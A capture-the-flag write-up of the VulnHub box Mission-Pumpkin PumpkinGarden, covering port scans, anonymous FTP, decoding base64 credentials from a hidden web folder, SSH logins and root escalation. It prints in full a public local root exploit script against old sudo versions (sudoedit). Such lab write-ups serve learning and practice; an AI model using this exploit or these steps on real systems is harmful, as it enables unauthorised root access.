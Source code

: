 ## Mission-Pumpkin v1.0: PumpkinGarden

The series took my eye on vulnhub, so I decided to [check them out.](https://www.vulnhub.com/?q=pumpkin) 

![Image](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-10.png)

### Finding out the IP-Adress

This time it was very easy - the vm itself showed it on the welcome screen.

The IP I had to deal with was 192.168.178.59

### Looking for open doors

I fired up Zenmap (yeah I know, but I really like the GUI) to take a closer look at open ports.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-19.png)

### FTP-Server

So there is nothing but a ftp-server. Let's check it out.

vsftp (very secure ftp) supports often an anonymous login. Thats what I tried first:

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-13.png)

Because I never worked with ftp like this before i messed up with the commands a little.
But in the end I got what I wanted.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-12.png)

That note.txt said:
```markdown
Hello Dear! 
Looking for route map to PumpkinGarden? I think jack can help you find it.
````
Who the heck is Jack?
Maybe this is a username or something like that. I'll save that for later.

### Are there any other open ports?

Because I didn't know what to search for, I decided to fire up Zenmap again, but this time with a larger portrange.
Bingo!
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-14.png)

Now I got a fileserver, a webserver and ssh. Thats a step forward. 

### Webserver

Let's check out the webserver.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-15.png)

It says `the route map to PumpkinGarden is somewhere under the hood`. 

That made me take a closer look at the sourcecode.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-16.png)

That went well. But what does it mean? This ist an absolute beginner vm, so I didn't expect it's talking about steganography.
I took a closer look at the image, but found nothing. Except the path where it is stored.
`192.168.178.59:1515/images`
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-18.png)

`hidden_secret` sounds good. After opening that directory, I found a textfile (clue.txt).

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-1.png)

That looks like a hash or some other type of decoded text. I ran it through hash-identifier, but there were no results.
Next possibility that came to my mind was base64.

`echo c2NhcmVjcm93IDogNVFuQCR5 | base64 -d`

Voilá `scarecrow : 5Qn@$y`

That looks like a set of credentials. 

### SSH

Maybe they work for SSH?

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-2.png)

Oh yes, they do. First big step is done, were inside of the vm.

After running the `ls -la` Command, I recognized a file called note.txt.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-3.png)

Goblin? What for a goblin? Is this another username for ssh?
A quick check of `/etc/passwd` revealed that I assumed this correctly.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-4.png)

Let's try if that awkward string is the password for goblin.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-5.png)

I'm running `ls -la` again and was presented with another note.txt.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-6.png)

### Privilege escalation

That sounds very good, but unfortunately it was a dead end because the site threw up a 404 Error.
Damn! After a couple of minutes spending on google I found out that this exploit was a bash script, which escalates our privileges to root.
Here's the script:
````
#!/bin/sh
# Tod Miller Sudo 1.6.x before 1.6.9p21 and 1.7.x before 1.7.2p4
# local root exploit
# March 2010
# automated by kingcope
# Full Credits to Slouching
echo Tod Miller Sudo local root exploit
echo by Slouching
echo automated by kingcope
if [ $# != 1 ]
then
echo "usage ./sudoxpl.sh <file you have permission to edit>"
exit
fi
# cd /tmp
cat > sudoedit << _EOF
#!/bin/sh
echo ALEX-ALEX
su
/bin/su
/usr/bin/su
_EOF
chmod a+x ./sudoedit $1
````
I went to `/tmp` to create the file and run it, but it didn't work.

Why? Maybe I should run this as scarecrow.

Nope, that won't work eiter. But what now?

I logged in again as goblin an run `ps -aux` which shows all current running processes.

There was a damn script running, which empties `/tmp` and `/home/goblin` every 15 seconds.

Ok, I had to create the script, change the permissions that I could execute it and run it within 15 secs.

I needed a few tries, but with the correct commands in my bash history I could accomplish that.

![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-7.png)

# BAM there it is - the root shell!

Running `ls -la` again showed me that there is a PumpkinGarden_Key file.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-8.png)

This is a base64 string again. So i echoed it into the base64 decoder.
![img](https://github.com/shendayan/CTF-ressources/blob/master/PumpkinGarden-Screenshot-9.png)

That's it! I really had fun with that box! Can't wait to take a closer look at part II of the series.

Thanky for reading and happy pwning!
